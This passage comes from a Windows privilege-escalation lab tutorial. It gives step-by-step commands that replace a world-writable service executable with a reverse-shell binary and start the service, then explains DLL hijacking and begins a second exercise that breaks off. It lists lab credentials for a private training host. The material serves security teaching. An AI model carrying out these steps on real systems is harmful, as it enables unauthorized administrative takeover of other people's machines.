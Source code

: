 Connect to 10.12.1.100/24 with user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the “filepermsvc” service has an executable which appears to be 
writable by everyone. We can confirm this with accesschk.exe:
    ````
    .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
    ````
3. Create a backup of the original service executable:
    ````
    copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp 
    ````
4. Copy the reverse shell executable to overwrite the service 
executable:
    ````
    copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
    ````
5. Start a listener on Kali, and then start the service to trigger the 
exploit:
    ````
    net start filepermsvc
    ````

AND BIM!

--- 


### DLL Hijacking
Often a service will try to load functionality from a library 
called a DLL (dynamic-link library). Whatever functionality the 
DLL provides, will be executed with the same privileges as the 
service that loaded it.
If a DLL is loaded with an absolute path, it might be possible 
to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to 
escalate privileges is if a DLL is missing from the system, 
and our user has write access to a directory within the 
PATH that Windows searches for DLLs in.
Unfortunately, initial detection of vulnerable services is 
difficult, and often the entire process is very manual.

---

**Exercise :**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password321

1. Use winPEAS to enumerate non-Windows services:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the C:\Temp directory is writable and in the PATH. Start by 
enumerating which of these services our user has stop and start access to:
    ````
    .\accesschk.exe /accepteula -uvqc user dllsvc
    ````
3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the 
winPEAS output, the service runs the dllhijackservice.exe executable. We 
can confirm this manually:
    ````